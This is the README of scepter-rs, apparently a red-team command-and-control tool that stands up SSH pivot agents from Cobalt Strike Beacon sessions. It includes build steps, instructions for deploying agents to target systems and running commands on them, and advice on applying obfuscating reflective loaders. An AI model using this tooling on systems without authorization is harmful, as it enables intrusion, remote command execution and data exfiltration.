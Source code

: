 # scepter-rs

A Rust-based server-agent Command-and-Control designed to maximize compatability with non-standard devices. `scepter-rs` provides a minimal command and control interface that can be leveraged from [your favorite C2 framework](https://www.cobaltstrike.com/).

Based on [rdll-rs](https://github.com/0xTriboulet/rdll-rs) and similar in design to [rssh-rs](https://github.com/0xTriboulet/rssh-rs/tree/master), this project enables external capability to be deployed from a Beacon console, effectively providing (*very*) primitive support for 3rd-party SSH pivot agents from an existing Beacon session. Unlike `rssh-rs`, `scepter-rs` inverts the communication relationship and stands up an SSH server on the Beacon-side of communications, increasing the potential for SSH client-side customization.

![img_4.png](img_4.png)

## Project Components

- **scepter-server**: The command server that manages connections and facilitates communication with agents
- **scepter-agent**: The client-side agent that executes commands on target systems
- **scepter-common**: Shared code and utilities used by both server and agent components
- **bof-write-pipe**: Utility for writing to communication pipes
- **xtask**: Custom build scripts and development tools

## Features

- Cross-platform support for various operating systems
- Encrypted communications between server and agents
- Integration with Cobalt Strike via Aggressor scripts (.cna)
- Customizable command execution and data exfiltration

## Getting Started

### Prerequisites

- Rust toolchain (specified in rust-toolchain.toml)
- Cargo package manager
- [pe2shc](https://github.com/hasherezade/pe_to_shellcode/tree/master)
- [cargo-zigbuild](https://github.com/rust-cross/cargo-zigbuild)

### Building from Source
The project uses a workspace structure to manage multiple related crates. The `xtask` crate provides custom build commands.

1. Clone the repository:
   ```bash
   git clone https://github.com/yourusername/scepter-rs.git
   cd scepter-rs
   cargo run --bin xtask --release
   ```
**Note: Apple aarch64 and x64 were manually built due to shortfalls in cargo-zigbuild's compatibility on Windows environments. The command above will NOT rebuild the Apple binaries.**


### Usage

#### Agent Deployment

Agents can be compiled for a variety of platforms. `scepter-rs.cna` stomps in connection information provided in the `.cna` as well as from the Beacon console as necessary. The `scepter_server` is initialized via the `scepter-init` command in a Beacon console.

This project contains (untested/experimental) pre-built Agent binaries in the `bins/` folder, supporting:
- Windows x64 (tested)
- Windows aarch64
- Linux x64
- Linux aarch64 (tested)
- Apple x64
- Apple aarch64

Static pre-built binaries, and binaries built from source will be placed in the `bin/` directory. Do not modify those binaries unless you're confident in what you're doing. Those binaries are used as the baseline to allow changes to be driven from the `.cna`. You can get very far with customization from the command-line and the `scepter-rs.cna`.

#### Cobalt Strike Integration

The included `scepter-rs.cna` script provides integration with Cobalt Strike:

![img_2.png](img_2.png)

1. Load the script in your Cobalt Strike client
2. Initialize the scepter-server with the `scepter-init` command.
   ```
   beacon> help scepter-init
   scepter-init <target ip> <target-port> <username> <password> <optional: pid>
   ex: scepter-init 192.0.0.1 2222 my_username my_password 12345
   ```
3. The compiled binaries will be available in the `bins/` directory.
4. Copy a binary from `bins/` to the target system via some other means.
5. Run the binary on the target system.
6. Run commands via `ssh-exec`
   ```bash
   beacon> help scepter-exec
   scepter-exec <user command>
   ex:scepter-exec whoami   
   ```
   ![img_3.png](img_3.png)
#### Applying Other Reflective Loaders

For proof-of-concept functionality, `scepter-rs` applies `pe2shc`'s reflective loader to `scepter_server.windows.x64.dll` -> `scepter_server.shc.windows.x64.dll`. However, one of the really cool capabilities of `pe2shc` is that the output PE retains all functionality of the original. This means that you can apply your own "obfuscation"-enabled reflective loader on-top without any negative effects at run time.
![img.png](img.png)

To facilitate using additional/alternative reflective loaders, `scepter_server.windows.x64.dll` exports `dll_start` as an alternate entry point for loaders that allow for the specification of entry points (for example Donut's `--function` option).

![img_1.png](img_1.png)

This capability is theoretical and untested. Feedback is welcome.

## ToDo
- BOF support for Windows/Linux
- Refactor the code a bit (it's a mess)
- Unit tests :D
- More pre-built Agents???

## License
MIT or Apache 2.0.